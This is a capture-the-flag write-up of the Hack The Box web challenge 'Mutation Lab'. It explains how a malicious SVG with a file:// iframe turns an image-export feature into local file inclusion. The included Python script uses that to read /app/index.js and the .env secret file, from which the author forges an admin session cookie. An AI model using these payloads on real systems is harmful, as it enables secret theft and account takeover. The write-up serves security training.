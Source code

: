 



# Mutation Lab



## Challenge Author(s):

Ulysses

## Description:

`
One of the renowned scientists in the research of cell mutation, Dr. Rick,
was a close ally of Draeger. The by-products of his research, the mutant
army wrecked a lot of havoc during the energy-crisis war. To exterminate
the leftover mutants that now roam over the abandoned areas on the
planet Vinyr, we need to acquire the cell structures produced in Dr. Rick's
mutation lab. Ulysses managed to find a remote portal with minimal
access to Dr. Rick's virtual lab. Can you help him uncover the experimentation of the wicked scientist?`

## Target: docker ip on demand

## Difficulty/Points: 400/medium

## Flag: HTB{fr4m3d_th3_s3cr37s_f0rg3d_th3_entrY}

## Challenge

The challenge is presented with a login form and a registration form. We can easily register on the site and gain access to a page that handles images. We can upload images and get a result. At the bottom, an important piece of information is revealed, namely that if we log in as admin then we can see secret content.

# Solution 

I adopted a black box strategy, i.e. without having the slightest knowledge of the source of the application, I studied all the inputs they could give me. A web page can have several inputs (in the url, in the forms, in the headers, in the cookies) and I was mainly interested in the login and registration forms. I tried all combinations progressing towards increasingly targeted SQLi and XSS attacks without success. After a number of consistent payloads that I sent, I realised that this was not where the problem lay. I was left with the url (which in this case did not have any special get parameters and had no other directories to show using e.g. wfuzz which among other things was a forbidden tool by the rules so I always recommend reading the rules of each CTF), the cookie and the headers (they too in this case were not very relevant). I focus on the cookie and notice that the cookie's form was of the type session=base64 and this makes me think I have to decode it and in fact it returns something like {"username": "giovixo97"} . There were 2 cookies and 1 of them in particular made me think of a signature. My goal might be to steal the admin cookie, but there's a problem: what key do I use to encrypt the cookie? This question will be answered immediately. Going into the details of the web application we notice that intercepting with burp the export request made with the image form the post contains a paylaod referring to svg images. Recognising this type of image then I try to look for something malicious to use. With svg various paylaods can be found on the web and among those that work is the one that allows LFI. after obtaining LFI I read the server backend a bit. Unfortunately here you have to do a bit of guessing and figure out which folders to use. If it is docker (as hack the box points out when he creates the challenge) then usually the web apps are placed in the /app folder and the main file usually has the name index.js. So ultimately by reading /app/index.js we see the backend. Unfortunately if this assumption failed, I had no other ideas to go on, so I would have to somehow brute force the application by trying to figure out the directory structure. From the backend I realise that a special file is used, namely .env. This file is special because it will probably contain a <key,value> pair of something and in fact we find the admin's session key with which he encrypts his cookies. Having done this, it is enough to forge a cookie of the admin and access the web page. Below is the solving script.

```python
import requests
#stage 1: evil-svg LFI for index.js
burp0_url = "http://68.183.37.6:31002/api/export"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://68.183.37.6:31002/dashboard", "Content-Type": "application/json", "Origin": "http://68.183.37.6:31002", "DNT": "1", "Connection": "close"}
burp0_json={"svg": "<svg-dummy></svg-dummy> <iframe src='file:///app/index.js' width='100%' height='1000px'></iframe> <svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
#stage 2: evil-svg LFI for index.js displayed
burp0_url = "http://68.183.37.6:31002/exports/12e970eb82d261f08c4b8a9a2e2dc083.png"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "image/avif,image/webp,*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "DNT": "1", "Connection": "close", "Referer": "http://68.183.37.6:31002/exports/5d53fa46b06017fd4ef46982dfb6d323.png"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
#stage 1: evil-svg LFI for .env
burp0_url = "http://68.183.37.6:31002/api/export"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://68.183.37.6:31002/dashboard", "Content-Type": "application/json", "Origin": "http://68.183.37.6:31002", "DNT": "1", "Connection": "close"}
burp0_json={"svg": "<svg-dummy></svg-dummy> <iframe src='file:///app/.env' width='100%' height='1000px'></iframe> <svg viewBox='0 0 240 80' height='1000' width='1000' xmlns='http://www.w3.org/2000/svg'><text x='0' y='0' class='Rrrrr' id='demo'>data</text></svg>"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
#stage 1: evil-svg LFI for .env displayed
burp0_url = "http://68.183.37.6:31002/exports/6a9025bd866699d24a2c9cf9a4e36273.png"
burp0_cookies = {"session": "eyJ1c2VybmFtZSI6ImEifQ==", "session.sig": "bfhobceQoICdOwlLNnmjJYUyB3s"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0", "Accept": "image/avif,image/webp,*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "DNT": "1", "Connection": "close", "Referer": "http://68.183.37.6:31002/exports/5d53fa46b06017fd4ef46982dfb6d323.png"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```

the thing to do after this script is to view the cookie obtained from the png and set the cookie to see the flag in the site's home logged in as admin
